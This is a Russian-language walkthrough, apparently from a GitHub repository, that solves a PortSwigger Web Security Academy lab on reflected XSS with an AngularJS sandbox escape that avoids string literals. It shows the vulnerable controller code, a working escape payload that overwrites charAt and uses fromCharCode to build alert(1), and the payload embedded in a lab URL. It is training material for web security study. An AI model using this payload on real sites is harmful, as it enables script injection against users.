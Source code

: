 Произведем случайный запрос , и нажмем `inspect` страницы 
и увидим следующий скрипт
```
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
                            $scope.query = {};
                            var key = 'search';
                            $scope.query[key] = 'hello';
                            $scope.value = $parse(key)($scope.query);
                        });
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/26.%20Reflected%20XSS%20with%20AngularJS%20sandbox%20escape%20without%20strings/pics%20for%20walkthrough/1.png)

Перейдем в читлист 
```
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
```
во вкладку `AngularJS sandbox escapes reflected` и выберем нужный нам пэйлоад
```
toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

Эксплойт использует` toString ()` для создания строки без использования кавычек. Затем он получает прототип строки и перезаписывает функцию charAt для каждой строки. Это эффективно нарушает песочницу AngularJS. Затем массив передается фильтру orderBy. Затем мы задаем аргумент для фильтра, снова используя `toString ()` для создания строки и свойства конструктора String. Наконец, мы используем метод `fromCharCode` для генерации нашей полезной нагрузки путем преобразования кодов символов в строку `x=alert(1)`. Поскольку функция charAt была перезаписана, AngularJS разрешит этот код там, где обычно его нет.

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/26.%20Reflected%20XSS%20with%20AngularJS%20sandbox%20escape%20without%20strings/pics%20for%20walkthrough/2.png)

Применим его в нашем url и получим уведомление об успешно выполненной лабораторной работе
```
https://0a0200cb0417551d80d9c1a0009400ba.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/26.%20Reflected%20XSS%20with%20AngularJS%20sandbox%20escape%20without%20strings/pics%20for%20walkthrough/3.png)
